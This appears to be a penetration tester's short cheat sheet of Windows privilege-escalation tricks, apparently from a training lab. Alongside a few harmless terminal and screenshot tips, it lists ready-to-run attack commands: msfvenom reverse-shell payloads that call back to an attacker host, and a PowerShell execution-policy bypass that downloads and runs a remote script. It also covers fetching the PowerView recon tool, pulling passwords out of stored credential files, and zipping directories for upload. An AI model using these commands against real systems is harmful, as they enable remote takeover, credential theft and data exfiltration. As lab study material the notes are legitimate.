

10-tricks
Enlarge terminal buffer
- screen -h 5000
Ctrl+A,Esc also enters the copy/scrollback mode.- esc to abort
Common commands for privesc
- Invoke-WebRequest -URI http://192.168.119.146/powerview.ps1 -OutFile powerview.ps1
- msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.147 LPORT=443 EXITFUNC=thread -f aspx -o shell.aspx
Retrieve passwords from session after pass the hash
- PowerShell has a method for storing encrypted credentials that can only be accessed by the user account that stored them. To retrieve the credential and using it within a script, you read it from the XML file. We will use this method to get the user’s hash
PS C:\Users\lvetrova> $Credential = Import-Clixml -Path "lvetrova.xml"
PS C:\Users\lvetrova> $Credential.GetNetworkCredential().password
Screenshot to clipboard
- shift + ctrl + printSCreen
Compress directory in order to upload it
- Compress-Archive -Path <directory> -DestinationPath 1.zip
Better shell
- msfvenom -p windows/x64/shell_reverse_tcp LHOST=$lhost LPORT=443 EXITFUNC=thread -f exe -o shell.exe
- powershell -ep bypass -c "iex(iwr -uri http://$lhost/pwn.ps1 ) -usebasicparsing
- pwn.ps1
